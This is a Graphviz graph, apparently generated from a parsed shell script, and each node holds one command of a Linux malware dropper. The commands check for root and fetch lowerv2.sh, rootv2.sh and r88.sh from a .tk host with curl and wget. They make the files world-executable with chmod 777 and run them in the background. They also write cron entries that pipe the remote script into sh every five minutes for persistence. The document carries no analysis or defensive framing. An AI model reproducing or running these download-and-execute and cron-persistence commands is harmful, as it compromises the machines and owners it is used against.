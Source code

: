 digraph {
0 [label="SHELL=/bin/sh "];
0 -> 0
2 [label="PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin "];
2 -> 4 [label="N,"];
4 [label="whoami=$( whoami ) "];
4 -> 6 [label="N,"];
6 [label="whoami "];
6 -> 8 [label="N,N,"];
8 [label="[ ${whoami}x != rootx ] "];
8 -> 10 [label="SC,N,if,"];
10 [label="curl http://e3sas6tzvehwgpak.tk/lowerv2.sh /tmp/lower.sh "];
10 -> 12 [label=";,then,"];
12 [label="/tmp/lower.sh "];
12 -> 12
14 [label="chmod 777 /tmp/lower.sh "];
14 -> 16 [label="\n,"];
16 [label="nohup bash /tmp/lower.sh /dev/null "];
16 -> 63 [label="\n,"];
63 [label="/dev/null "];
63 -> 63
19 [label="[ ! -f /tmp/lower.sh ] "];
19 -> 21 [label="&,SC,N,if,"];
21 [label="wget -P /tmp/ http://e3sas6tzvehwgpak.tk/lowerv2.sh "];
21 -> 23 [label=";,then,"];
23 [label="rm /tmp/lower.sh.* "];
23 -> 25 [label="\n,"];
25 [label="rm /tmp/lowerv2.sh.* "];
25 -> 27 [label="\n,"];
27 [label="chmod 777 /tmp/lowerv2.sh "];
27 -> 29 [label="\n,fi,\n,"];
29 [label="nohup bash /tmp/lowerv2.sh /dev/null "];
29 -> 63 [label="\n,"];
63 [label="/dev/null "];
63 -> 63
32 [label="echo */5 * * * * curl -fsSL http://e3sas6tzvehwgpak.tk/r88.sh|sh /var/spool/cron/root "];
32 -> 34 [label="&,else,"];
34 [label="/var/spool/cron/root "];
34 -> 34
36 [label="mkdir -p /var/spool/cron/crontabs "];
36 -> 38 [label="\n,"];
38 [label="echo */5 * * * * curl -fsSL http://e3sas6tzvehwgpak.tk/r88.sh|sh /var/spool/cron/crontabs/root "];
38 -> 40 [label="\n,"];
40 [label="/var/spool/cron/crontabs/root "];
40 -> 40
42 [label="curl http://e3sas6tzvehwgpak.tk/rootv2.sh /tmp/root.sh "];
42 -> 44 [label="\n,"];
44 [label="/tmp/root.sh "];
44 -> 44
46 [label="chmod 777 /tmp/root.sh "];
46 -> 48 [label="\n,"];
48 [label="nohup bash /tmp/root.sh /dev/null "];
48 -> 63 [label="\n,"];
63 [label="/dev/null "];
63 -> 63
51 [label="[ ! -f /tmp/root.sh ] "];
51 -> 53 [label="&,SC,N,if,"];
53 [label="wget -P /tmp/ http://e3sas6tzvehwgpak.tk/rootv2.sh "];
53 -> 55 [label=";,then,"];
55 [label="rm /tmp/root.sh.* "];
55 -> 57 [label="\n,"];
57 [label="rm /tmp/rootv2.sh.* "];
57 -> 59 [label="\n,"];
59 [label="chmod 777 /tmp/rootv2.sh "];
59 -> 61 [label="\n,fi,\n,"];
61 [label="nohup bash /tmp/rootv2.sh /dev/null "];
61 -> 63 [label="\n,"];
63 [label="/dev/null "];
63 -> 63
}
